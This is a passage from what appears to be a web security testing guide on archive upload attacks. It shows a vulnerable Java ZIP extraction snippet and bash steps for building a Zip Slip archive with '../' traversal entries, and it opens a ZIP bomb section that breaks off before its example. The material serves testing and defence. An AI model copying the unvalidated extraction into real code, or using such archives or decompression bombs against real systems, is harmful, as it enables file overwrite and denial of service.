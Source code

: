 A test against Archive Directory Traversal should include two parts:

1. A malicious archive that breaks out of the target directory when extracted. This malicious archive should contain two files: a `base` file, extracted into the target directory, and a `traversed` file that attempts to navigate up the directory tree to hit the root folder - adding a file into the `tmp` directory. A malicious path will contain many levels of `../` (*i.e.* `../../../../../../../../tmp/traversed`) to stand a better chance of reaching the root directory. Once the attack is successful, the tester can find `/tmp/traversed` to be created on the webserver through the ZIP slip attack.
2. Logic that extracts compressed files either using custom code or a library. Archive Directory Traversal vulnerabilities exist when the extraction functionality doesn’t validate file paths in the archive. The example below shows a vulnerable implementation in Java:

```java
Enumeration<ZipEntry> entries =​ ​zip​.g​etEntries();

while(entries​.h​asMoreElements()){
    ZipEntry e ​= ​entries.nextElement();
    File f = new File(destinationDir, e.getName());
    InputStream input = zip​.g​etInputStream(e);
    IOUtils​.c​opy(input, write(f));
}
```

Follow the steps below to create a ZIP file that can abuse the vulnerable code above once its uploaded to the web server:

```bash
# Open a new terminal and create a tree structure
# (more directory levels might be required based on the system being targeted)
mkdir -p a/b/c
# Create a base file
echo 'base' > a/b/c/base
# Create a traversed file
echo 'traversed' > traversed
# You can double check the tree structure using `tree` at this stage
# Navigate to a/b/c root directory
cd a/b/c
# Compress the files
zip test.zip base ../../../traversed
# Verify compressed files content
unzip -l test.zip
```

#### ZIP Bombs

A [ZIP bomb](https://en.wikipedia.org/wiki/zip_bomb) (more generally known as a decompression bomb) is an archive file that contains a large volume of data. It's intended to cause a denial of service by exhausting the disk space or memory of the target system that tries to extract the archive. Note that although the ZIP format is the most used example for this, other formats are also affected, including gzip (which is frequently used to compress data in transit).

At its simplest level, a ZIP bomb can be created by compressing a large file consisting of a single character. The example below shows how to create a 1MB file that will decompress to 1GB:
